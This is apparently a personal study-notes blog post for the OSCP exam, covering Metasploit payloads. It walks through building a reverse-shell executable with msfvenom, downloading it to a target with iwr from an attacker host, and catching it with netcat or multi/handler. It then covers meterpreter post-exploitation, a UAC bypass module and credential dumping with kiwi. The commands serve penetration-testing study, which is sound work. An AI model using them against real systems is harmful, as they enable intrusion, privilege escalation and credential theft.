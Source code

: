 ```yaml
---
layout: post
title: Metsploit Payloads
titledate: 09/25/23
tags: ["infosec", "offsec", "metasploit"]
---
```


#### staged vs stageless

- stageless a non-staged or stageless payload is sent with the shellcode along with the exploit it is considered an all in one exploit and is typically more stable, however, it is larger in size

- staged a staged payload is sent in parts where the first part is meant to establish the connection to the attacker and then in the second part the rest of the shellcode is sent to the target - a staged payload is not only smaller in size, but the 2nd part of shellcode that is retrieved is loaded into memory and may more easily escape detection by AV

to view compatible payloads for a chosen exploit

    msf> show payloads

to identify staged vs stageless in msf, the / character will be used for staged and a payload description will usually identify the payload for example

    payload/linux/x64/shell/reverse_tcp 
        Reverse TCP Stager
    payload/linux/x64/shell_reverse_tcp  
        Reverse TCP Inline

#### meterpreter

meterpreter is a msf payload that resides in memory and can be especially useful in post exploitation

all meterpreter payloads are staged , but the payload can be distributed in a stageless manner to the target in which it contains all the components required to launch a meterpreter session

if we select a meterpreter payload

    msf> set payload linux/x64/meterpreter_reverse_tcp

    msf> run

we can get system info, and even an interactive shell

    msf> sysinfo

    msf> shell

we can upload and download files and even use an HTTPS encrypted meterpreter payload to help bypass AV

#### msfvenom

we use msfvenom to create binaries from the msf payload libraries outside of msf

to list available payload options by search

    $ msfvenom -l payloads --platform windows --arch x64

let's create our binary with our payload, lhost lport file format and file output name

    $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe

we can experiment with both staged and non staged to see differences in our results

for the non staged we can use powershell to copy over the msfvenom reverse shell binary to our target

    PS> iwr -uri http://192.168.1.1/nonstaged.exe -Outfile nonstaged.exe

start our netcat listener

    $ nc -nvlp 443

and then execute on our target

    PS> .\nonstaged.exe

then for the staged payload we can not use netcat bc it can not handle staged payloads

#### NOTE: we can only use meterpreter once for OSCP, but we can use a staged listener in the multi/handler

    msf> use multi/handler

    msf> set payload windows/x64/shell/reverse_tcp

this should catch our staged payload

some shell type shortcuts

[msfvenom](https://github.com/lexisrepo/Shells)

#### post exploitation

msf includes many post exploitation features useful ones for us would be hash dumps , getuid, getsystem

we must get privs before migrating process

list with 

    msf> ps

    msf> migrate pid

dump env 

    msf> getenv

#### bypass UAC

if we have a meterpreter session we can enter a shell and attempt to bypass UAC

    msf> shell

    C:> powershell -ep bypass

    PS> Import-Module NtObjectManager

    PS> Get-NtTokenIntegrityLevel

this will show us the integrity level of the process we are executing in

we can ctrl+z to bacground the shell and then hit bg to background the session

    msf> search UAC

this search will show several UAC bypasses we can choose from

    msf > use exploit/windows/local/bypassuac_sdclt

we choose one and then enter the options for the background session we already have

    msf> set SESSION 9

    msf> set lhost 192.168.1.1

    msf> run

now if we enter a shell

    msf> shell

    C:> powershell -ep bypass

    PS> Import-Module NtObjectManager

    PS> Get-NtTokenIntegrityLevel

we can see the integrity level is high so we've bypassed UAC

#### kiwi

kiwi is another meterpreter module that can be loaded but it needs administrator privs

so if we execute a meterpreter session and execute

    msf> getsystem

to elevate our privs, we can then load kiwi

    msf> load kiwi

    msf> help

    msf> creds_msv

this will allow us to dump user creds if we have sufficent privs

check exploit target 

    msf> set exploit target 1

this will allow the inclusion of the payloads that coorelate